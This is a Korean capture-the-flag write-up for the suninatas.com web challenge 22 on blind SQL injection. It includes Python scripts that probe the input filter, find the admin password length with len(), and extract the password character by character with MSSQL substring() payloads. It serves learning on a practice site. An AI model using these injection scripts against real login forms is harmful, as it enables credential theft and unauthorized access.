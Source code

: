 ```yaml
---
layout: default
title: Day25
nav_order: 4

parent: Hacking Project - W4
grand_parent: P4C
---
```


##### 해당 게시글은 빡공팟 4기(with TeamH4C)와 관련되어 있습니다
-----

# > http://suninatas.com/

Web문제의 단계가 8번에서 22번으로 뻥튀기 되었는데 바로 blind sql injection이었다.  
dreamhack과 구글링을 통해 시도해보았다.

## challenge 22

![image-20220512163438440](../img/image-20220512163438440.png)

장르는 소개되어 있다시피 블라인드 인젝션이고 필터링을 적용 시킨 듯 하다.  
필터링이 될 경우에는 "No hack" 이 출력되고, 로그인이 실패라면 "False", 성공하면 "OK"가 출력된다.  
어떤 식으로 필터링이 되는지는 모르겠지만 위에 적힌 단어 이외에도 대부분이 필터링된다.  
"No hack" 이 뜨는 것을 기준으로 필터링이 되는 것을 알아보면

`(`,`and`,`||`,`=` ,`^`, ... 

몇 개 시도를 안 해봤지만 노가다 성이 짙어 보여 가능한 기호들이 무엇이 있는지 파이썬을 이용해서 알아보기로 했다.

```python
import requests

def request(uid,upw):
	url = f'http://suninatas.com/challenge/web22/web22.asp?id={uid}&pw={upw}'
	response = requests.get(url)
	return response


for i in range(33,128):
	uid = 'guest'
	upw = chr(i)
	response = request(uid,upw)
	if "No hack" not in response.text:
		print(chr(i),end=' / ')

print('\n')
```

아래는 결과 캡쳐이다.

![image-20220512172545181](../img/image-20220512172545181.png)

해당 결과를 보다가 `&`가 안되는데 된다고 뜨길래 직접 몇 개를 테스트하던 중에 문득 '대소문자 구분은 하나?' 싶어서 테스트를 해봤는데 `select`는 불가능하지만 s가 대문자인 `Select`는 "False"가 뜨는 것으로 보아 가능한 것으로 보인다. 근데 또 생각해보면 결과 값이 쿼리 문에 대한 결과가 아니라서 어떡하나 싶다.

![image-20220512175907046](../img/image-20220512175907046.png)

통신 간격 때문인지 `&` 기호에 대한 응답이 "No hack" 으로 오지 않을 때가 있어서 `sleep()`으로 간격을 두었다.  
그리고 곰곰히 생각해봐도 SQL의 함수도 쓸 수가 없는데 도대체 어떡해야 하는 거지? 모르겠다.



<br>



혹시나 소스 코드에 필터링 방법에 대한 힌트가 있는지 보았는데 admin의 비밀번호를 찾아야 한다고 한다.  
`' or 1=1` 이런 건 안 통하고 sleep함수나 와일드 카드를 쓰라는 것 같은데... 다시 도전이다.

```html
<!-- Hint : guest / guest & Your goal is to find the admin's pw -->
<!-- M@de by 2theT0P -->
```



<br>



진짜 멍청했던 점이 자꾸 비밀번호 란에서 실패를 했는데 아이디 란에 시도를 안 했었다.  
`--` 기호가 주석인 점을 기억해서 해봤더니 아래처럼 로그인 자체는 되는데 비밀번호는 모른다.  
그리고 아이디 란에서는 대소문자 구분이 있어서 select 문이 불가능하다.

![image-20220512181053554](../img/image-20220512181053554.png)

그럼 어떤 식으로 진행해야 할지 생각하다가 `len()`과 같은 함수들을 이용해서 하나 하나 조각을 맞춰 보기로 했다.  
아 그리고 위의 삽질에서 비밀번호를 대상으로만 확인을 했었기에 아이디에도 확인해보았더니

![image-20220512182748231](../img/image-20220512182748231.png)

`(` 기호가 가능해서 함수들을 사용할 수 있다는 점도 인지한 상태이다.  
개발 단계에서 mysql을 써봤기에 몇몇 함수들을 알고 있고 `len()`과 `substr()`을 이용하면 되지 않을까 싶다.



<br>

먼저 비밀번호의 길이부터 찾았다.  
비밀번호의 칼럼명은 소스 코드에서 주어진 name이`pw`길래 guess했다.

```python
import requests

def request(uid):
	url = f'http://suninatas.com/challenge/web22/web22.asp?id={uid}&pw=1234'
	response = requests.get(url)
	return response

def find_len_pw():
	for num in range(1,30):
		uid = f'admin\' and len(pw)>{num}--'
		response = request(uid)
		if "False" in response.text:
			print("Finally I can get pw len: ",num)
			break

if __name__ == "__main__":
	find_len_pw()
```

결과를 보면 10 자리라고 한다.

![image-20220512183614730](../img/image-20220512183614730.png)

다음은 비밀번호를 찾아야 하는데 문자열의 특정 문자만 선택하는 `substr`을 이용해야 겠다.



<br>

아주 큰 문제가 생겼는데 아무리 코드를 돌려도 한 글자도 맞추지 못했다.  
쿼리문에 대한 결과문은 "False"로 나와서 필터링에 걸리지는 않는데 아무래도 어딘가 문제가 있다.

찾아보니 `substr`이 아닌 `substring`을 쓰는 DBMS가 있었다. `mssql` 이라고 하는데 이 녀석도 주석을 `--` 로 쓴다.
{. text-red-000}

일단 1차적으로 함수가 문제였고 2차적으로 문자열 인덱싱에서 0번이 시작이 아니였다.
{. text-red-000}



<br>



python으로 항상 `from pwn import *`을 가장 많이 썼었는데 최근 들어 `import request`를 더 많이 써보는 것 같다.  
안 될 때마다 갈아 엎었더니 너무 시간이 오래 걸렸다.

```python
import requests

def request(uid):
	url = f'http://suninatas.com/challenge/web22/web22.asp?id={uid}&pw=1234'
	response = requests.get(url)
	return response

def find_len_pw():
	for num in range(1,30):
		uid = f'admin\' and len(pw)>{num}--'
		response = request(uid)
		if "False" in response.text:
			print("Finally I can get pw len: ",num)
			break
	return num

def solve(len):
	
	res = ""
	for idx in range(1,11):
		for i in range(33,127):
			uid = f'admin\' and substring(pw,{idx},1) = \''+chr(i)+'\'--'
			response = request(uid)
			if "OK" in response.text:
				print(f"Wait! I find {idx}'s letter : ",chr(i))
				res += chr(i)
				break
	print(res)

if __name__ == "__main__":
	len_pw = find_len_pw()
	solve(len_pw)
```



결국에 이렇게 풀어버렸다~!

![image-20220512185835110](../img/image-20220512185835110.png)

<br>
<br>
<br>

-----
# > 한번 알아보았습니다.

이번 챌린지를 풀다가 `sqlmap`이라는 툴을 발견했다.  
파이썬으로 만들어진 이 툴은 공격 웹사이트에 존재하는 DB 정보를 얻어낼 수 있었다.  
추후 기회가 되면 직접 써봐야겠다.